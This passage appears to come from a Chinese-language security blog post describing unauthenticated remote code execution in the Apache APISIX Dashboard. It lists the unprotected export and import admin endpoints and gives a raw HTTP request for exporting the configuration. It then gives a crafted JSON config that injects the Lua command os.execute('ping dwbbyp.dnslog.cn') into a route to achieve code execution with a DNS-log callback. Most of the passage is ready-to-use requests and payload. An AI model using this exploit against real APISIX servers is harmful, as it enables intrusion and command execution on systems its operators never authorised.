![image-20220307191219840](https://gitee.com/greetdawn/blogImages/raw/master/img/202203071912032.png)

![image-20220307191318171](https://gitee.com/greetdawn/blogImages/raw/master/img/202203071913258.png)

`注：这里RCE主要是由于apisix在转发过程中允许用户自定义lua脚本`

`详细可参考`

[官方文档]: https://apisix.apache.org/docs/apisix/architecture-design/script/



## 未授权`getshell`

该漏洞主要原因在于有两个`api`接口可以未授权进行访问请求

```
/apisix/admin/migrate/export
/apisix/admin/migrate/import
```

这两个接口可以分别用于导出配置文件和导入配置文件

- 首先导出配置文件

  ```
  GET /apisix/admin/migrate/export HTTP/1.1
  Host: 192.168.32.132:9000
  Cache-Control: max-age=0
  Upgrade-Insecure-Requests: 1
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
  Accept-Encoding: gzip, deflate
  Accept-Language: zh-CN,zh;q=0.9
  Cookie: _dd_s=logs=1&id=f26f1c7c-914f-43fe-a912-d4cc6c6d1bdc&created=1646706156327&expire=1646708206389
  If-Modified-Since: Wed, 16 Jun 2021 12:59:46 GMT
  Connection: close
  ```

  ```
  {"Counsumers":[],"Routes":[{"id":"397919338339762880","create_time":1646708008,"update_time":1646708008,"uris":["/greetdawnrce2"],"name":"greetdawnrce2","methods":["GET","POST","PUT","DELETE","PATCH","HEAD","OPTIONS","CONNECT","TRACE"],"upstream_id":"397811130833044159","status":1}],"Services":[],"SSLs":[],"Upstreams":[{"id":"397811130833044159","create_time":1646643511,"update_time":1646643511,"nodes":[{"host":"192.168.32.132","port":3000,"weight":1}],"timeout":{"connect":6,"read":6,"send":6},"type":"roundrobin","scheme":"http","pass_host":"pass","name":"greetdawn"}],"Scripts":[],"GlobalPlugins":[{"id":"1","create_time":1646646463,"update_time":1646649397,"plugins":{"batch-requests":{"disable":false}}}],"PluginConfigs":[]}
  ```

  `注：导出的配置文件我们可以看到，就是所有route信息，这样我们可以利用篡改route信息再未授权的情况下直接访问import接口覆盖route达到rce的目的`

- 根据前序情况构造`rce`

  ```
  {"Counsumers":[],"Routes":[{"id":"397919338339762880","create_time":1646708008,"update_time":1646708008,"uris":["/greetdawnrce2"],"name":"greetdawnrce2","methods":["GET","POST","PUT","DELETE","PATCH","HEAD","OPTIONS","CONNECT","TRACE"],"script":"os.execute('ping dwbbyp.dnslog.cn')","script_id":"397919338339762880","upstream_id":"397811130833044159","status":1}],"Services":[],"SSLs":[],"Upstreams":[{"id":"397811130833044159","create_time":1646643511,"update_time":1646643511,"nodes":[{"host":"192.168.32.132","port":3000,"weight":1}],"timeout":{"connect":6,"read":6,"send":6},"type":"roundrobin","scheme":"http","pass_host":"pass","name":"greetdawn"}],"Scripts":[{"id":"397919338339762880","script":"os.execute('ping dwbbyp.dnslog.cn')"}],"GlobalPlugins":[{"id":"1","create_time":1646646463,"update_time":1646649397,"plugins":{"batch-requests":{"disable":false}}}],"PluginConfigs":[]}
  ```
